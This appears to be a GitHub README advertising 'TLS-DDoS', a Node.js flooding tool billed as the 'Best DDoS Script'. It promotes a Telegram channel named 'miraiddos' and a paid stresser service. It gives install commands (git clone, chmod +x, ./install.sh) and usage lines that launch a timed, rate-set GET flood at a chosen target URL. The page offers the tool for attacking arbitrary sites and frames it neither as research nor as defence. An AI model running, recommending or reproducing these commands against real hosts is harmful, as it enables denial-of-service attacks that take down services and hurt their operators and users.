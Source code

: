 <h1 align="center">TLS-DDoS - Best DDoS Script</h1>

<p align="center">Made by: ZL3CK</p>

<p align="center"><img src="https://media.discordapp.net/attachments/1009865497975717939/1027115493758349413/index.jpg?width=1169&height=603" width="1078" height="433" alt="POWER"></p>


<h1 align="center">
Contact me:💻
</h2> 

<div align="center">
   <img src="https://icon-library.com/images/github-icon-vector/github-icon-vector-27.jpg" width="96" height="96" alt="github" />
   <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/8/82/Telegram_logo.svg/2048px-Telegram_logo.svg.png" width="96" height="96" alt="telegram" />
</div>

 * [Our Telegram Channel](https://t.me/miraiddos)
 * [Our Stresser](https://t.me/flowstresser)

---

## Information


**How to install**

```shell script
git clone https://github.com/ZL3CKdev/TLS-DDoS
cd TLS-DDoS
chmod +x *
./install.sh
```

---

**How to start**

```shell script
node tls.js GET (conc) (target) (time) (rate)
node tls.js GET 15 https://example.com 120 64
```

---

